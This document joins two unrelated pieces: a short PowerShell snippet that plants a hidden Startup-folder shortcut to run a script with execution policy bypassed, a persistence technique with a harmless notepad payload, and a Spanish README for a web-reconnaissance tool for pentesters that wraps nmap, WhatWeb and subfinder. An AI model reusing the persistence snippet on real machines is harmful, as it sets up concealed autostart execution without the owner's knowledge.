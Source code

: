 
$payload = 'Start-Process notepad.exe'
$payloadPath = "C:\ProgramData\payload.ps1"

Set-Content -Path $payloadPath -Value $payload

$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\persistence.lnk")

$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-ExecutionPolicy Bypass -WindowStyle Hidden -File `"$payloadPath`""
$Shortcut.Save()


# WebReconGenius
 WebReconGenius - Plataforma de Reconocimiento Web


**WebReconGenius** es una herramienta local de reconocimiento web todo-en-uno desarrollada para **pentesters**, **bug bounty hunters** y profesionales de **ciberseguridad ofensiva**.

Con solo ingresar un dominio, ejecuta múltiples procesos de recolección de información y presenta los resultados en una **interfaz**, con tarjetas organizadas, visualizaciones gráficas y análisis resumido.

---

## 🚀 Características

- 🌐 Resolución de IP del dominio
- 🔎 Escaneo de puertos y servicios con Nmap
- 🧠 Detección de tecnologías con WhatWeb
- 🌍 Enumeración de subdominios usando Subfinder
- 📦 Búsqueda de archivos de respaldo comunes (ej. `.zip`, `.sql`, `.tar.gz`)
- 🛡️ Detección de WAF y formularios de login
- 📥 Análisis de encabezados HTTP
- 📊 Dashboard visual estilo carrusel con gráficas interactivas (Chart.js)
- 📝 Generación de reportes en formato HTML y Markdown
- 💻 Interfaz local accesible desde navegador

---

## Requisitos

- **Python 3.8+**
- Herramientas externas instaladas:
  - [`nmap`](https://nmap.org/)
  - [`whatweb`](https://github.com/urbanadventurer/WhatWeb)
  - [`subfinder`](https://github.com/projectdiscovery/subfinder)
- Librerías de Python:
  ```bash
  pip install flask httpx beautifulsoup4


  ## INSTALACION Y USO

 ```bash

git clone https://github.com/Stealthy-lab/WebReconGenius
cd WebReconGenius
python3 app.py
Accede en tu navegador e ingresa http://localhost:5000
Ingresa un dominio
